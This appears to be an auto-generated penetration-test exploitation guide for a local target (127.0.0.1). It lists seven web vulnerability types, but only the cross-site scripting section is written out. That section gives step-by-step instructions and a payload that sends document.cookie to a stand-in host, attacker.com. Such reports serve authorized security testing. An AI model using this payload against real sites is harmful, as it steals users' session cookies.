# Detailed Exploitation Guide for http://127.0.0.1

This document provides detailed instructions for reproducing and exploiting the vulnerabilities found during the security assessment. This information is intended for authorized security testing only.

## Disclaimer

The information contained in this document is for authorized security testing purposes only. Unauthorized use of these exploitation techniques against systems without explicit permission is illegal and unethical.

## Target Information

- **Target:** http://127.0.0.1
- **Scan Date:** 20250426_160749

## Identified Vulnerabilities

The following vulnerabilities were identified during the assessment:

1. **Cross-Site Scripting (XSS)** (High)
2. **SQL Injection** (High)
3. **Cross-Site Request Forgery (CSRF)** (Medium)
4. **Open Redirect** (Medium)
5. **XML External Entity (XXE) Processing** (High)
6. **Server-Side Request Forgery (SSRF)** (High)
7. **Insecure Deserialization** (High)

## Detailed Exploitation Procedures

### Cross-Site Scripting (XSS) (High)

**Affected Component:** http://127.0.0.1/search (q parameter)

**Description:** An attacker can inject malicious JavaScript code into web pages viewed by users. When the page is rendered, the script executes in the victim's browser, allowing attackers to steal cookies, session tokens, redirect users to malicious sites, or perform actions on behalf of the victim.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1/search
2. Identify the vulnerable parameter: q
3. Craft a malicious XSS payload (e.g., <script>alert(document.cookie)</script>)
4. Submit the payload through the input field or URL parameter
5. Verify execution by checking if the JavaScript executes

#### Example Payloads

```
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
